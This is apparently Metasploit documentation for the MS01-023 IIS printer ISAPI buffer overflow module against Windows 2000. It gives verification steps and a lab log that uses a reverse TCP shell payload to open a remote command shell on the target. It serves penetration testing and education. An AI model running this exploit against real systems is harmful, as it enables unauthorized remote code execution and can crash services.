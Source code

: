 ## Vulnerable Application

This exploits a buffer overflow in the request processor of the
Internet Printing Protocol ISAPI module in IIS. This module
works against Windows 2000 Server and Professional SP0-SP1.

If the service stops responding after a successful compromise,
run the exploit a couple more times to completely kill the
hung process.

This module has been tested successfully on:

* Windows 2000 Professional SP0 (Dutch)
* Windows 2000 Professional SP0 (Finnish)
* Windows 2000 Professional SP0 (Greek)
* Windows 2000 Professional SP0 (Korean)
* Windows 2000 Professional SP0 (Turkish)
* Windows 2000 Professional SP1 (Arabic)
* Windows 2000 Professional SP1 (Czech)
* Windows 2000 Professional SP1 (English)
* Windows 2000 Professional SP1 (Greek)
* Windows 2000 Server SP0 (Chinese)
* Windows 2000 Server SP0 (Dutch)
* Windows 2000 Server SP0 (English)
* Windows 2000 Server SP0 (German)
* Windows 2000 Server SP0 (Hungarian)
* Windows 2000 Server SP0 (Italian)
* Windows 2000 Server SP0 (Portuguese)
* Windows 2000 Server SP0 (Spanish)
* Windows 2000 Server SP0 (Turkish)
* Windows 2000 Server SP1 (English)
* Windows 2000 Server SP1 (French)
* Windows 2000 Server SP1 (Swedish)

## Verification Steps

1. `use exploit/windows/iis/ms01_023_printer`
1. `set RHOSTS [IP]`
1. `show targets` to see the possible targets
1. `set TARGET [TARGET]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options


## Scenarios

### Windows 2000 Professional SP1 (EN)

```
msf6 > use exploit/windows/iis/ms01_023_printer
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/iis/ms01_023_printer) > set rhosts 192.168.200.195
rhosts => 192.168.200.195
msf6 exploit(windows/iis/ms01_023_printer) > check
[*] 192.168.200.195:80 - The target appears to be vulnerable.
msf6 exploit(windows/iis/ms01_023_printer) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows 2000 SP0-SP1 (Arabic)
   1   Windows 2000 SP0-SP1 (Czech)
   2   Windows 2000 SP0-SP1 (Chinese)
   3   Windows 2000 SP0-SP1 (Dutch)
   4   Windows 2000 SP0-SP1 (English)
   5   Windows 2000 SP0-SP1 (French)
   6   Windows 2000 SP0-SP1 (Finnish)
   7   Windows 2000 SP0-SP1 (German)
   8   Windows 2000 SP0-SP1 (Korean)
   9   Windows 2000 SP0-SP1 (Hungarian)
   10  Windows 2000 SP0-SP1 (Italian)
   11  Windows 2000 SP0-SP1 (Portuguese)
   12  Windows 2000 SP0-SP1 (Spanish)
   13  Windows 2000 SP0-SP1 (Swedish)
   14  Windows 2000 SP0-SP1 (Turkish)
   15  Windows 2000 Pro SP0 (Greek)
   16  Windows 2000 Pro SP1 (Greek)


msf6 exploit(windows/iis/ms01_023_printer) > set target 4
target => 4
msf6 exploit(windows/iis/ms01_023_printer) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(windows/iis/ms01_023_printer) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf6 exploit(windows/iis/ms01_023_printer) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Using target: Windows 2000 SP0-SP1 (English) ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.195
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.195:1168) at 2022-07-08 11:07:42 -0400


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----


C:\WINNT\system32>ver
ver

Microsoft Windows 2000 [Version 5.00.2195]
```
